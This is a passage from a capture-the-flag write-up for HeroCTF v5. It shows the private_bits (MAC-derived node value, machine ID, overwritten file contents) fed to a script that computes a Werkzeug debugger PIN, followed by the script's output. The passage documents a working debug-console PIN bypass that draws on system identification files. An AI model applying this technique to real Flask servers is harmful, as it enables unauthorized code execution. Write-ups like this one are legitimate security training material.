 The modified `/var/www/config/urandom` now consists 16's A character!

**Now, the correct private bits is!**
```python
private_bits = [
	'2482665383426',# str(uuid.getnode()),  /sys/class/net/ens33/address 
	# Machine Id: /etc/machine-id + /proc/sys/kernel/random/boot_id + /proc/self/cgroup
	'97752bf5a62a4e9588a4aa4ccf85660f',
	'AAAAAAAAAAAAAAAA'
]
```

> Note: The MAC address and machine ID is changed because of different instance machine.

```shell
┌[siunam♥earth]-(~/ctf/HeroCTF-v5/System/Drink-from-my-Flask#2)-[2023.05.14|20:51:07(HKT)]
└> python3 werkzeug-pin-bypass.py
Pin: 103-934-238
```

Fingers crossed!

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230514205727.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230514205736.png)

